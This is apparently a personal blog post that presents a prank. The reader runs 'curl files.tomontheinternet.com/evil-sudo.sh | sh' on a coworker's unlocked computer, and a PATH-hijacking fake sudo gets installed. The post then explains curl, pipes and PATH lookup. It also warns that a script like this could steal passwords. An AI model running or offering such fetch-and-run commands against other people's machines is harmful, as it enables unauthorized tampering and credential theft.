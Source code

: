 ```yaml
---
title: Evil Sudo
date: "2019-10-18"
---
```


This article assumes basic knowledge of the command-line. It also assumes you are on Linux or Mac.

There is also a video to accompany this blog post if you prefer.
`youtube: RrgxRXZf0vI`

## Want to infuriate a coworker?

1. Wait until they leave their computer unlocked.
2. Open a terminal and run this command:

```
curl files.tomontheinternet.com/evil-sudo.sh | sh
```

3. Close the terminal.

Now, whenever they try to use sudo, they'll see this:

```
10d20d7815 EXCEPTION unknown (0313)
```

Googling won't help them, because that error is utter nonsense.

## How does this work?

To understand what's happening, you need to understand the following things:

1. What `curl` is.
2. How you can pipe text to a shell.
3. What `evil-sudo.sh` does, and how the shell (command-line) determines which programs to run.

## What's curl?

Curl takes a URL, makes an HTTP request, and returns the response right in the terminal. Curl can do a lot more than that, but for us, this is enough.

Type `curl https://www.google.com` into your terminal. You should now see a wall of text. That text is the HTML of Google's landing page.

Now type `curl files.tomontheinternet.com/evil-sudo.sh`. I _promise_ nothing bad will happen. What you see now is a shell script I wrote and hosted online. Curl went out and got it for you.

## Sending text to a shell.

The pipe command looks like a pipe: `|`. It takes the output of one command and sends it to another command.

Type `sh` into your terminal. You are now in an `sh` shell. It's a lot like a Bash or Z shell. You can play around in this shell if you want. Then type `exit` to get back to your normal shell.

Type `echo "echo hi" | sh` into your terminal. This will send the text "echo hi" to the `sh` shell to be run. `sh` will run the command return the value, which is "hi".

So, looking at the command from the start of this blog post, can you see what `curl files.tomontheinternet.com/evil-sudo.sh | sh` does?

It takes the result of `curl files.tomontheinternet.com/evil-sudo.sh`, which is a shell script, and sends it to `sh`. `sh` then runs the shell script.

So, running `curl files.tomontheinternet.com/evil-sudo.sh | sh` downloads a shell script called `evil-sudo.sh` and runs it on your computer as you.

## What does `evil-sudo.sh` do?

Here's what `evil-sudo.sh` DOESN'T do: it doesn't modify your `sudo` command. It can't do that, because it doesn't have root access.

Unix-based systems have a `$PATH` variable. To see yours, type `echo $PATH`. This variable tells your shell where to find programs. Your shell looks, _in order_, through these directories to see if a program exists. When it finds a program, it runs it.

`evil-sudo.sh` adds a directory to your \$PATH and then creates a fake sudo program in that directory. It does this by determining what shell you are using, and adding a line to your `rc` file. So far, it only supports `bash` and `zsh`, but that covers 95% of all users. Now, when you run the `sudo` command, your shell finds the fake sudo program _first_ and uses the fake sudo instead of the real sudo.

Don't worry though! `evil-sudo.sh` is harmless.

## This could be much worse

`evil-sudo.sh` is annoying, but it could be much worse. It could pretend to be the real sudo command, and steal your password. Once it has your password, it could delete all files on your computer. Scary.

Make sure you only run commands you trust!

## Learn more

The source code and a command to remove `evil-sudo.sh` are available [here](https://github.com/tom-on-the-internet/evil-sudo).

